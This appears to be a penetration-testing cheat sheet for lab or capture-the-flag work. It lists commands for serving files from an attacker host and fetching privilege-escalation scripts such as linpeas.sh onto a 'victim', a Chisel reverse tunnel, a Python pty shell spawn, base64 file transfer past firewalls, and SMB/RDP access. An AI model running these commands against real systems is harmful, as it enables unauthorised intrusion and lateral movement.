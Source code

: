 # General Commands

### Python server

`python3 -m http.server 8888`

To download the file: `wget http:/KALI_IP//linpeas.sh`

If the remote server does not have `wget`, we can use `cURL`. : `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

### SCP

Copy file from local to a remote computer:

```bash
scp file.txt remote_username@10.10.0.2:/remote/directory/newfilename.txt
# -P to set the ssh port in necessary case
```

Copy file from remote directory to local computer

```bash
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```

### Chisel

Example for postgresql (port 5432). First we need to transfer chisel.

On the attacker's machine:

```
chisel server --port 9002 --reverse
```

On the victim's machine:

```
./chisel client -v 10.10.16.81:9002 R:5432:172.22.0.1:5432
```

And now on the atacker's machine we have the ports 5432 connected. The usage wil be on another tab: `psql -h 10.10.16.81 -U "postgres" -p 5432`



#### Spawn a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### Tmux

```
sudo apt install tmux -y
```

* [https://tmuxcheatsheet.com/](https://tmuxcheatsheet.com/)
* [Introduction to termux Ippsec](https://www.youtube.com/watch?v=Lqehvpe\_djs)

### Vim

[https://vimsheet.com/](https://vimsheet.com/)

### base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```bash
base64 binarytotransfer -w 0
#On the local machine
```

```
echo f0VMR... <SNIP> ...lIuy9i | base64 -d > binarytotransfer
#On the remote machine
```

### md5sum

To ensure the integrity of the transfered file.

```
md5sum transferedfile
```

### xfreerdp

```
xfreerdp /v:<targetIp> /u:<user> /p:<password> /size:1280x720
```

### smbclient

```
smbclient -L <IPaddress> -U <user>
```

#### Mounting the share:

We may need first to install CIFS utilities:

```shell-session
sudo apt-get install cifs-utils
```

```bash
sudo mount -t cifs -o username=<winusername>,password=<usernamepassword> //<ipaddoftarget>/<"Foldername"> /home/user/Desktop/
#The last command is the path on our local machine where we want to mount the remote share 
```

### Create a Share with smbserver.py

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support NOMBRECARPETA /home/ltnbob/Documents/
```
